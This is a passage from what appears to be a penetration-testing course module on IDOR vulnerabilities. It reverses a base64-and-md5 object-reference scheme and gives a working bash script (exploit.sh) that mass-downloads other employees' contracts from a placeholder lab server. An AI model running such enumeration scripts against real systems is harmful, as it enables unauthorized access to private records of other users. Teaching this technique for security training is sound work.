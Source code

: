 As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. **Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts.**
#### Mass Enumeration
Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. 

In more advanced cases, we may utilize tools like Burp, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using ``tr -d`` to remove the trailing ``-`` characters, as follows:
```bash
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a ``POST`` request on ``download.php`` with each of the above hashes as the contract value, which should give us our final script:
```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```
With that, we can run the script, and it should download all contracts for employees 1-10:
```bash
$ bash ./exploit.sh
$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```
As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.
### IDOR in Insecure APIs
So far, we have only been using IDOR vulnerabilities to access files and resources that are out of our user's access. 
